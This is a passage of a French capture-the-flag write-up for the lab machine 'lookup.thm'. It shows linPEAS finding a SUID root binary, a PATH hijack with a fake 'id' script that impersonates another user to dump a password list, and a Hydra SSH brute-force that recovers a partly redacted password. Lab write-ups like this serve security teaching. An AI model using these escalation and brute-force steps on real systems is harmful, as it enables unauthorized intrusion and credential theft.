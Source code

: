 En utilisant [linPEAS](https://github.com/peass-ng/PEASS-ng/tree/master/linPEAS) pour énumérer en profondeur la machine, nous trouvons un binaire inconnu :

```bash
-rwsr-sr-x 1 root root 17K Jan 11  2024 /usr/sbin/pwm (Unknown SUID binary!)
```

Ce binaire appartient à root, et dispose de SUID et SGID permettant de l'utiliser en tant que root sans authentification préalable.

```bash
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: www-data
[-] File /home/www-data/.passwords not found
```

Le binaire lance donc la commande `id` afin de récupérer le contenu du fichier `.passwords` du compte actuellement utilisé. Nous créons une version "alternative" de la commande `id` qui donnera le même résultat que si nous utilisions l'utilisateur `think`

```bash
# Récupérer les informations de l'utilisateur think
id think
uid=1000(think) gid=1000(think) groups=1000(think)
#Créer un faux fichier id qui retournera la même information
echo '#!/bin/bash
echo "uid=1000(think) gid=1000(think) groups=1000(think)"' > id
# Mettre à jour le PATH pour que le nouveau 'id' soit pris en compte
chmod +x id
export PATH=/tmp:$PATH
```

```txt
/usr/sbin/pwm
[!] Running 'id' command to extract the username and user ID (UID)
[!] ID: think
jose1006
[...expurgé pour brièveté...]
jose.2856171
```

Nous enregistrons la liste au format txt, puis nous lançons une nouvelle fois {% include dictionary.html word="Hydra" %} cette fois sur le service {% include dictionary.html word="SSH" %}

```bash
hydra -l think -P pass.txt lookup.thm ssh -f -I
```

{% capture spoil %}
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-02-16 19:32:43
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 49 login tries (l:1/p:49), ~4 tries per task
[DATA] attacking ssh://lookup.thm:22/
[22][ssh] host: lookup.thm   login: think   password: jose[...expurgé...]
[STATUS] attack finished for lookup.thm (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2025-02-16 19:32:47
{% endcapture %}
{% include elements/spoil.html %}
